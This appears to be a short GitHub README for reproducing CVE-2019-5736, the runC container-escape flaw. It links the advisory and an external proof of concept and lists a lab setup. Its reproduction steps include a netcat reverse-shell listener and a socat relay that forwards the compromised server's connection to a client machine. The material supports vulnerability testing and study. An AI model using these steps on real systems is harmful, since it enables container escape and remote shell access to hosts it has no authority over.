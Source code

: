 # CVE-2019-5736

## About
* <https://nvd.nist.gov/vuln/detail/CVE-2019-5736>


## PoC / Exploit

* <https://github.com/twistlock/RunC-CVE-2019-5736> 


## Environment used

* Ubuntu 20.04 LTS
* Docker-CE 18.06.0


## Reproduction
**Warning:** Uninstall any Docker version in server **first**. 

* Client terminal (reverse shell)
```shell script
nc -nvlp 2345
```
* Server
```shell script
bash script.sh
socat TCP-LISTEN:2345,fork TCP:<Client IP>:2345 &
docker run cve-2019-5736
```
 
